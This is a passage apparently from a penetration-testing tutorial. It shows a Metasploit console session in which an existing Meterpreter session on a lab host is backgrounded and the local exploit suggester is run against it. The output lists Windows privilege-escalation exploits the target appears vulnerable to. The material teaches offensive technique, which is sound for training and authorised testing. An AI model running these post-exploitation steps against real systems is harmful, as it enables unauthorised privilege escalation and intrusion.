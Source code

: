 We can easily decide to run the local exploit suggester module, attaching it to the currently active Meterpreter session. To do so, we background the current Meterpreter session, search for the module we need, and set the SESSION option to the index number for the Meterpreter session, binding the module to it.

#### MSF - Session Handling

```shell-session
meterpreter > bg

Background session 1? [y/N]  y


msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

SESSION => 1


msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```
